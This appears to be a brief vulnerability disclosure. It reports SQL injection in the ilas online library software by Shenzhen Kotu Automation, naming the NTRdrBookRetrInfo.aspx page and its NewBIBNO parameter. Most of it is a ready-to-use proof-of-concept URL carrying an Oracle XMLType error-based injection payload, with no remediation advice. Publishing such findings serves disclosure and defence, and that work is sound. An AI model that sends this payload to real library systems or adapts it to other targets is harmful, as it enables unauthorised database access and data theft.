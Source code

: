 

## SQL injection into ilas online library

- Shenzhen Kotu Automation New Technology Co., Ltd

- NTRdrBookRetrInfo.aspx

- Parameter: NewBIBNO

### POC

```
NTRdrBookRetrInfo.aspx?BookRecno=341789&NewBIBNO=341789%20AND%206241=(SELECT%20UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(112)||CHR(112)||CHR(120)||CHR(113)||(SELECT%20(CASE%20WHEN%20(6241=6241)%20THEN%201%20ELSE%200%20END)%20FROM%20DUAL)||CHR(113)||CHR(112)||CHR(113)||CHR(106)||CHR(113)||CHR(62)))%20FROM%20DUAL)&NEWBOOK=newbook
```

![image-20240816101848450](/imgs/SQL injection into ilas online library/image-20240816101848450.png)